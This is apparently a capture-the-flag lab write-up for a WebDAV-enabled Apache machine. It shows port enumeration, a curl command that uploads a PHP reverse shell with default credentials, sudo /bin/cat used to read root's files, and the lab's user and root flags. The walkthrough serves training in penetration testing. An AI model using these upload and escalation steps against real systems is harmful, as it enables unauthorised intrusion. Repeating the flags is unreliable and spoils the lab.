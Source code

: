 <pre>
Machine IP: 10.10.223.26

Enum
    Open ports:
        80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works



Enum port 80:gobuster
    /webdav/
    ->    Upload php reverse shell 
        curl --user wampp:xampp http://10.10.223.26/webdav/shell.php --upload-file shell.php -X PUT




And get www-data user..

Priv Esc for root.txt

$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat

sudo /bin/cat /root/root.txt
And got root flag!

User Flag: 449b40fe93f78a938523b7e4dcd66d2a
Root Flag: 101101ddc16b0cdf65ba0b8a7af7afa5
</pre>
